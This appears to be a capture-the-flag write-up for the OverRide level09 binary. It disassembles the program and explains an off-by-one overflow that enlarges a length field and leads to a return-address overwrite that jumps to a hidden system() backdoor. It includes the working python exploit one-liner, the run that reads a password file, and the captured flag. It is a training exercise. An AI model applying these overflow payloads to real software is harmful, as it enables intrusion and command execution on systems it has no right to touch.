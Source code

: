 # **Level09**

## **Binary Analysis**

When executed, the program displays a welcome message and handles user input through the handle_msg() function. It uses a structure to store a username (up to 40 characters) and a message (up to 140 characters). The program first prompts the user to enter a username using the set_username() function, and then asks for a message via the set_msg() function. There is also an unused secret_backdoor() function that can read a command from the user and execute it, but this function is never called during the normal program flow.

**main function:**
```bash
0x0000000000000aa8 <+0>:  push   %rbp
0x0000000000000aac <+4>:  lea    0x15d(%rip),%rdi      # 0xc10
0x0000000000000ab3 <+11>: callq  0x730 <puts@plt>
0x0000000000000ab8 <+16>: callq  0x8c0 <handle_msg>
```
Main simply displays a message and calls handle_msg.

**handle_msg key parts:**
```bash
# handle_msg function - structure layout
0x00000000000008d2 <+18>: add    $0x8c,%rax         # 0x8c (140) is offset to username field
0x00000000000008ff <+63>: movl   $0x8c,-0xc(%rbp)   # Setting len field to 0x8c (140)
0x0000000000000910 <+80>: callq  0x9cd <set_username>
0x000000000000091f <+95>: callq  0x932 <set_msg>

# set_username - accessing username field
0x0000000000000a5f <+146>: mov %cl,0x8c(%rdx,%rax,1) # Writing to username at offset 0x8c (140)

# set_msg - accessing len field 
0x00000000000009a9 <+119>: mov 0xb4(%rax),%eax      # Reading len field at offset 0xb4 (180)
                                                     # 180-140=40, so len is 40 bytes after username
```
**set_username key part:**
```bash
0x0000000000000a5f <+146>: mov  %cl,0x8c(%rdx,%rax,1) # Writes to username starting at offset 140
0x0000000000000a6a <+157>: cmpl $0x28,-0x4(%rbp)      # Checks if i > 40 (0x28)
```
This shows username is written to offset 140 and loop continues until i > 40.

**set_msg key part:**
```bash
0x00000000000009a9 <+119>: mov  0xb4(%rax),%eax       # Loads len field (at offset 180 = 0xb4)
0x00000000000009c6 <+148>: callq 0x720 <strncpy@plt>   # Copies input using the length
```
Uses the len value at offset 0xb4 (180) to control strncpy.

**secret_backdoor function:**
```bash
0x00000000000008ad <+33>: callq 0x770 <fgets@plt>
0x00000000000008b9 <+45>: callq 0x740 <system@plt>
```

## **Vulnerability**

The username buffer is 40 bytes long, and the length field is located at offset 40.
A buffer overflow can occur, allowing 1 byte to be written beyond the username buffer, potentially modifying the length field.
This modified length allows writing beyond the bounds of the message buffer, resulting in a second overflow.
As a result, it is possible to overwrite the return address, which could lead to executing the secret_backdoor function.

## **Exploit**

**Exploit Structure**


Stage 1: Username overflow

```bash
"A" * 40       # Fill username buffer
"\xff"         # Overwrite length byte to maximum
"\n"           # Username input terminator
```
Stage 2: Message overflow

```bash
"B" * 200      # Padding to reach return address
"\x8c\x48\x55\x55\x55\x55\x00\x00"  # secret_backdoor address
```

**Final Exploit**

```bash
(python -c 'print "A"*40 + "\xff" + "\n" + "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09
```

**Exploit Execution**

```bash
level09@OverRide:~$ (python -c 'print "A"*40 + "\xff" + "\n" + "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

**How It Works**

1. **First Stage (Username)**:
    - Fill username buffer with 40 'A's
    - Overflow one byte with \xff to modify message length
    - This allows writing beyond normal message bounds
2. **Second Stage (Message)**:
    - 200 bytes of 'B's as padding
    - Place secret_backdoor address (0x55555555488c)
    - When function returns, it jumps to secret_backdoor
3. **Command Execution**:
    - secret_backdoor function executes
    - We can input shell commands
    - Read the flag file

## **Flag**

```
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

```
